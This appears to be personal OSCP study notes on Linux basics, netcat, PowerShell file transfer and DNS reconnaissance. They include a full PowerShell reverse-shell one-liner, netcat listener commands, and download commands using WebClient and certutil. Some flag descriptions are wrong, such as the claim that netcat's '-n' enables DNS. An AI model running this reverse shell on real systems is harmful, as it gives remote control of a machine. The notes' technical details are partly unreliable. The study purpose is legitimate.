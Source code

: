 # OSCP Notes

The course first focuses on basic linux commands and navigation using command line.
I'll just put some important ones on here and then we'll move onto the pentesting section of this course because that is honestly the only thing I am excited about.

* With `ps` command you can see the current processes
* With `kill` command you can kill a pariticular process.
* With `wget` command you can download a file from a remote web browser
* With `curl` command you can download manipulate http requests and modify them on the go


# Customizing the bash enviornment 
*Alias* is a string we can define which can replace the command name. By doing 
```bash
alias lsa="ls -la"
```
We can define lsa as ls -la.

# Netcat

It can be run in two modes => client or server.

## Client Mode

we can connect to a tcp port by using client mode.

```bash
nc -n -v $(ip)
```
* -n tells the netcat to use the dns resolution
* -v tells the netcat to run in verbose mode

## Server Mode

```bash
nc -nvlp $(port)
```
This will open the listner.

```bash
nc -nv $(ip) $(port) 
```

It can also be used to transfer files, open reverse shell and much more.

# PowerShell
It maintains an execution policy which describes which powershell scipts can be run and which cannot be.
By default it is restricted.
You can unrestrict is by using the following the command

```ps1
Set-ExecutionPolicy Unrestricted
```
And you can check it by the following command

```ps1
Get-ExecutionPolicy
```
## Transfer file using powershell

* ```ps1
powershell -c "(new-object System.Net.WebClient).DownloadFile('$(source localtion)', '$(targetlocation)')"
```
* ```ps1
certutil -urlcache -f "$(source location)" $(filename)
```


# Powershell reverse Shell

```ps1
$client = New-Object System.Net.Sockets.TCPClient('$(ip)',$(port));$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


# Passive Recon

## Some Baic commands
* `whois` tells info about a domain
* `nslookup` does a reverse lookup on a domain
* `hosts` command will tell you about the different types of web servers and their ip addresses.

# Active Recon

## Dns Enumeration

* ```bash
host $(website)
```
This commmand helps in finding the ip address of a domain and also helps in finding different types of webservers and their ips too.
you can specify the type of web server with the help of -t flag 

## DNS Zone Transfers

This is an amazing technique which will basically tranfer the whole zone file of domain onto anyserver if misconfigured by sysadmins.
We can find out the domain servers by
```bash
host -t ns $(domain)
```










